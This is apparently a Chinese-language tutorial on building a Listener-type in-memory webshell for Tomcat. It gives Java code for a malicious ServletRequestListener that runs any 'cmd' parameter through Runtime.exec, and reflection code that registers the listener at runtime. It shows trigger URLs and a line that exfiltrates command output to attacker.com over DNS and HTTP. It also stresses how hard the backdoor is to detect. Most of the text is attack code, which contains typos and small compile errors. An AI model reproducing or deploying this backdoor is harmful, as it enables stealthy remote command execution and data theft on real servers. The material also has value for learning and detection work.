




# Listener型内存马

## Listener是什么
在 Java Web 中，Listener（监听器） 是一种特殊的组件，用于监听 Web 应用中发生的各种事件，并在事件发生时执行相应的代码。

**Listener的类型**

| 类型 | 监听接口 | 触发时机 |
|------|----------|----------|
| ServletContextListener | `javax.servlet.ServletContextListener` | 应用启动 / 销毁时 |
| ServletRequestListener | `javax.servlet.ServletRequestListener` | 请求创建 / 销毁时 |
| HttpSessionListener | `javax.servlet.http.HttpSessionListener` | Session 创建 / 销毁时 |

*在内存马场景中，ServletRequestListener 是最常用的，因为它的触发频率最高（每次请求都会触发），且不绑定特定 URL*

## Listener型内存马核心思路
>利用代码执行入口，在运行时动态注册一个恶意 ServletRequestListener，使其监听每一次请求的创建事件。当请求到达时，Listener 会自动执行恶意代码，而无需访问任何特定路径。

**恶意Listener的基本结构**
```java
import javax.servlet.ServletRequestEvent;
import javax.servlet.ServletRequestListener;
import javax.servlet.http.HttpServletRequest;
class EvilListener implements Listener{
    @Override
    public void requestInitialized(ServletRequestEvent sre){
        HttpServletRequest req=(HttpServletRequest)sre.getServletRequest();
        String cmd=req.getParameter("cmd");
        if(cmd!=null&&!cmd.isEmpty()){
            try{
                Runtime.getRuntime().exec(cmd);

            }catch(Exception e){
    
            }

        }
    }
    @Override
    public void requestDestoryed(ServletRequestEvent sre){

    }
}
```

## 注册流程

**核心步骤**
```
1. 获取 StandardContext	Tomcat 的应用上下文对象

2. 创建恶意 Listener 实例	实现 ServletRequestListener 接口

3. 添加到 StandardContext	调用 addApplicationEventListener() 或 addApplicationLifecycleListener()
```

**完整流程**

*第一步：获取StandardContext*
```java
StandardContext sct=null:
ClassLoader cl=Thread.currentThread().getContextClassLoader();
Object resources=null;
Class<?> clazz =cl.getClass();
while(clazz!=null&&resources==null){
    try{
        Field resourcesField=clazz.getDeclaredField("resources");
        resourcesField.setAccessible(true);
        resources=resourcesField.get(cl);
    }catch(NoSuchFieldException e){
        clazz=clazz.getSuperclass();
    }
    
}
if(resources==null){
    throw new Exception("找不到 resources 字段");
}

Class<?> resourcesclazz=resources.getClass();
while(resourcesClazz!=null&&sct==null){
    try{
        Field contextField=resourcesClazz.getDeclaredField("context");
        contextField.setAccessible(true);
        sct=(StandardContext)contextField.get(resources);
    }catch(NoSuchFieldException e){
        resourcesClazz=resourcesClazz.getSuperclass();
    }
}
if(sct==null){
    throw new Exception("找不到 context 字段");
}

```

*第二步：创建并注册Listener*

```java
MyListener evilListener = new MyListener();
sct.addApplicationEventListener(evilListener);
```

*第三步：触发后门*

>注册成功后，任何请求 只要携带 ?cmd=whoami 参数，Listener 就会执行命令

```text
http://localhost:8080/index.html?cmd=whoami
http://localhost:8080/memshell/servlet_inject.jsp?cmd=id
http://localhost:8080/任意路径?cmd=ls
```

## 核心难点：命令执行结果如何回显？
>Listener 的方法签名为 requestInitialized(ServletRequestEvent sre)，参数中没有 ServletResponse，也没有 PrintWriter，因此无法直接将命令执行结果返回给客户端。

### 存入request属性然后如果Filter或JSP读取
```java
public void requestInitialized(ServletRequestEvent sre){
    HttpServletRequest request=(HttpServletRequest)sre.getServletRequest();
    String cmd=request.getParameter("cmd");
    if(cmd!=null&&!cmd.isEmpty()){
        try{
            String result=execCommand(cmd);
            request.setAttribute("evil_result",result);

        }catch(Exception e){
            req.setAttribute("evil_result", "Error: " + e);
        }
    }
}
```
然后通过一个独立的 JSP 读取并显示：
`<%=request.getAttribute("evil_result") %>`

### 写入可访问文件
```java
String results =execCommand(cmd);
String path="/usr/local/tomcat/webapps/ROOT/result.txt";
FileWriter fw=new FileWriter(path);
fw.write(result);
fw.close();
```
然后访问 http://localhost:8080/result.txt 查看结果。
### 通过DNS或HTTP外带数据
```java
String result=execCommand(cmd);
InterAddress.getByName(result + ".attacker.com");
//或者发送http请求
HttpURLConnection conn=(HttpURLConnection)new URL("http://attacker.com/log?data=" + URLEncoder.encode(result, "UTF-8")).openConnection();
```

## 访问后门流程
```
用户访问任意页面 ?cmd=whoami
    ↓
Tomcat 接收请求
    ↓
触发事件 → ServletRequestInitialized 事件
    ↓
执行 EvilListener.requestInitialized()
    ↓
检测到 cmd 参数
    ↓
Runtime.exec() 执行命令
    ↓
结果存入 request.setAttribute("listener_result")
    ↓
（后续）访问 show_result.jsp → 输出结果
```
## 总结
>Listener 型内存马的本质是：利用反射获取 Tomcat 的 StandardContext，在运行时动态注册一个 ServletRequestListener，使其监听每一次请求的创建事件。当请求到达时，恶意 Listener 自动执行，无需绑定任何 URL，是三种内存马中隐蔽性最高、代码量最少、但回显也最复杂的一种。

| 要点 | 说明 |
|------|------|
| 注册最简单 | `standardContext.addApplicationEventListener(listener)` 即可 |
| 触发无路径要求 | 任何请求 + cmd 参数都能触发 |
| 回显最复杂 | 需要借助 request 属性 + 回显页面、文件或外带数据 |
| 检测最困难 | 无 URL 绑定，流量审计难以发现 |
| 最适合 | 监控型后门、无回显场景（如反弹 Shell、数据窃取） |

## 实战
**环境**：docker搭建Tomcat容器


**PoC**

*注入器*
[](../../../code-attachment/memory-shell-code/minidemo/Listener.jsp)
*回显页面*
[](../../../code-attachment/memory-shell-code/minidemo/ListenerResult.jsp)

**注入**




**访问**


